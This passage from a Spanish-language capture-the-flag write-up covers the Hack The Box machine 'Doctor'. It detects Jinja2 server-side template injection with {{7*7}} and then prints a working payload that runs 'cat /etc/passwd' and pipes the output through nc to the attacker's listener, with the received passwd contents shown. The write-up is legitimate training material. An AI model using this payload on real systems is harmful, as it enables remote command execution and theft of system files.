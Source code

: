 En ese momento había creado un post probando {% raw %}`{{7*7}}`{% endraw %}, el cual si veíamos en algún lado el número `49`, quiere decir que tendríamos nuestra inyección con `Jinja2`.

![278pagedoctorsnewpost1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctorsnewpost1.png)

Revisando el fuente de `/archive` encontramos lo que buscabamos (:

![278pagedoctors_injA_found](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_found.png)

Bien, al probar los dos campos del `post`, el que nos genera la inyección es el titulo, asi que podemos intentar ejecución de comandos en el sistema:

* [Server Side Template Injection with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/).

![278pagedoctors_injA_idYwhoami_req](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_idYwhoami_req.png)

![278pagedoctors_injA_idYwhoami_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_idYwhoami_res.png)

Perfecto, tenemos ejecución de comandos en el sistema como `web`, intentemos obtener el archivo `/etc/passwd`.

Ponemos en el titulo del post:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc 10.10.14.83 4433')['read']()}}
```
{% endraw %}

Nos ponemos en escucha por el puerto 4433:

```bash
–» nc -nlvp 4433
listening on [any] 4433 ...
```

Vamos a `/archive` y ejecutamos, el resultado que tenemos en consola es:

```bash
connect to [10.10.14.83] from (UNKNOWN) [10.10.10.209] 55928
root:x:0:0:root:/root:/bin/bash
...
web:x:1001:1001:,,,:/home/web:/bin/bash
...
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash 
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

* [Info sobre `os` y `subprocess`](https://uniwebsidad.com/libros/python/capitulo-10/modulos-de-sistema).

Listo, pues veamos como obtener una reverse shell (:

**NOTA: ---**

[Siguiendo esta guia](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee), logramos obtener el index exacto (407) de la clase [`subprocess.Popen`](https://docs.python.org/3/library/subprocess.html) :P, con el cual tambien podemos ejecutar comandos:
